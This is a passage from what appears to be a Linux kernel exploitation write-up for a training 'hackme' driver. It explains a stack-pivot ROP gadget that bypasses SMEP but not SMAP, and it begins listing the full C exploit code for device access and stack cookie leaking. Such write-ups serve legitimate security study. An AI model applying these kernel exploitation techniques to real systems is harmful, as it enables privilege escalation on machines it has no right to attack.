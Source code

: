 {% endhighlight %}

## Alternative way of bypassing SMEP but not SMAP
You may have noticed, that we bypassed both SMEP and SMAP.
By building the ROP chain only from kernel gadgets, we did not
need to either execute or access memory pages from user mode.
But there are alternative approaches that can bypass SMEP, but not
SMAP, one of which I want to touch on here. The idea is to pivot the
stack to a location where we can write
our ROP chain to. This is useful in the case where we can overwrite
only the return address but not further.

There are a bunch of ROP gadgets that move a constant value into
ESP.
One such gadget is as follows.
{% highlight C %}
uint64_t mov_esp_pop2_ret = 0xffffffff8196f56a; // mov esp, 0x5b000000 ; pop r12 ; pop rbp ; ret
{% endhighlight %}
One could use this gadget as the return address when overflowing the
buffer of the vulnerable device. Before, one needs to write the
remainder of the ROP chain to the address that is moved to ESP. This
can be achieved by allocating the region using mmap.

The idea works if SMEP is enabled, as we do not need to execute anything
in userland. However, it does not work when SMAP is enabled, as we
need read and write access to the location where we pivot to, i.e., to a user
land memory page.

I saw this idea in [this other
writeup](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/).

We need to modify `run.sh` to disable SMAP and enable SMEP using the command line arguments `-cpu kvm64,+smep`.

The full code for the exploit is shown below.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <unistd.h>
#include <sys/mman.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers

void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];